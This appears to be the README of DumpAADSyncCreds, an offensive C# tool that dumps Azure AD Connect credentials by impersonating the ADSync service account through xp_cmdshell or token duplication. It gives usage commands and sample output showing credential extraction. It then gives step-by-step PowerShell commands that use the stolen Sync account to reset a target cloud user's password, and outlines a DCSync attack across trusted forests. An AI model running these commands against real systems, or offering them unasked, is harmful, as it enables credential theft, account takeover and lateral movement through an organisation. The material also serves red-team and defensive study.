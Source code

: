 # DumpAADSyncCreds
DumpAADSyncCreds is C# implementation of Get-AADIntSyncCredentials from [AADInternals](https://github.com/Gerenios/AADInternals), which extracts Azure AD Connect credentials to AD and Azure AD from AAD connect database.

In late 2019, a change on key storage was deployed such that only ADSync service account could access the key to decrypt configuration file from database.

DumpAADSyncCreds provides two ways to impersonate as ADSync service account:

- execute command via xp_cmdshell by [Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- copy token from miiserver process via DuplicateToken API call by AADInternals

## Usage

```shell
cmd> set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
cmd> .\DumpAADSyncCreds.exe print_help
DumpAADSyncCreds
More info: https://github.com/Hagrid29/DumpAADSyncCreds
Example:
        set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
        DumpAADSyncCreds.exe get_token
Options:
Dump AAD connect account credential in current context:
        DumpAADSyncCreds.exe [raw_output]
Copy token of ADSync service account and dump AAD connect account credential:
        DumpAADSyncCreds.exe get_token [raw_output]
Execute command as ADSync service account via xp_cmdshell:
        DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
Print status of ADSync service:
        DumpAADSyncCreds.exe check_service
```

Duplicate token of ADSync service account

```shell
cmd> .\DumpAADSyncCreds.exe get_token
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Obtained ADSync service account token from miiserver process...
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Execute xp_cmdshell

```shell
cmd> DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Executed command: EXEC xp_cmdshell '"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe"'
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Print ADSync service status

```shell
cmd> .\DumpAADSyncCreds.exe check_service
Is ADSync service running:      True
ADSync bin path:                C:\Program Files\Microsoft Azure AD Sync\bin\
ADSync service account:         XXXXXXX
ADSync version:                 1.6.16.0
*** ADSync passwords can be read or modified as local administrator only for ADSync version 1.3.xx.xx
```

## Use Cases of AAD Connect credentials
#### Lateral move from on-perm to cloud (Reset password of cloud user)
1. Import AADInternal
2. Request an access token for AADGraph
```powershell
ps> $passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
ps> $creds = New-Object System.Management.Automation.PSCredential ("<Sync_* account>", $passwd) 
ps> Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache 
```
3. Obtain Immutable ID of target user
```powershell
ps> Get-AADIntGlobalAdmins 
ps> Get-AADIntUser -UserPrincipalName <target user> | select ImmutableId 
```
4. Reset password of target user
```powershell
ps> Set-AADIntUserPassword -SourceAnchor "<Immutable ID>" -Password "P@ss4Hagrid29" -Verbose 
```

#### Lateral move across AD Forest
During different red team engagements, I noted that it is common to have [multiple forests with single Azure AD tenant](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/plan-connect-topologies#multiple-forests-single-azure-ad-tenant) topology for Azure AD Connect. WIth this setup, we could leverage AD DS connector account to compromise trusted forests from another.
1. Locate and compromise AAD connector servers and corresponding connector accounts that synchronizes users from other forests
2. Execute DCSync attack with the connector account against the target forest

## Improvement

- Dirk-jan found a way to remote dump AAD connect account credentials with RPC call. Check details in his [blog post](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)

## References

* https://github.com/Gerenios/AADInternals
* https://blog.xpnsec.com/azuread-connect-for-redteam/


